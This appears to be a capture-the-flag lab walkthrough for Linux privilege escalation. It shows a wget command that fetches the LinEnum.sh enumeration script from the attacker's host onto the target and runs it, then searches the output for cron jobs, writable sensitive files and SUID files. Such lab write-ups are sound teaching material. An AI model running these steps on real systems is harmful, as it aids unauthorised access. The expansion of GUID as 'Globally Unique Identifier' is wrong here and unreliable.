 Open another terminal / session, ssh into the vulnerable system.

Run:

```bash
wget <local ip address>:<port>/LinEnum.sh
```

Once the script is on the vulnerable system we need to chmod+x the file to make it executable

```bash
chmod +x LinEnum.sh
./LinEnum.sh
```

Review the contents as necessary to find the next few flags.

### Task 4 - Flag4

How many availabe shells are on the system?

For this flag I viewed the output from /etc/shells

```bash
cat /etc/shells
```

### Task 4 - Flag5

What is the name of the bash script that is set to run every 5 minutes by cron?

For this I used vi to search the output of the LinEnum.sh script

```bash
./LinEnum.sh > LinEnumOut.txt
vi LinEnumOut.txt
```

To search in vi, you can us **/**, followed by your search criteria. Then use **n** to search forward or **N** to search backward.

We are looking for tasks ran by cron. This will allow you to find Flag5

### Task 4 - Flag6

What critical file has been changed to allow users to write to it?

Similar to Flag5, we can search the output of LinEnumOut.txt with vi, or any other text editor. I ended up searching for critical, no luck, and after just searching for file, you can search for "sensitive" to find the flag.

## Task 5 - Abusing SUID/GUID Files

Check for files with the SUID/GUID bit set. This means that the file or files can be run with the permissions of the file(s) owner/group.

SUID - Set User ID
GUID - Globally Unique Identifier
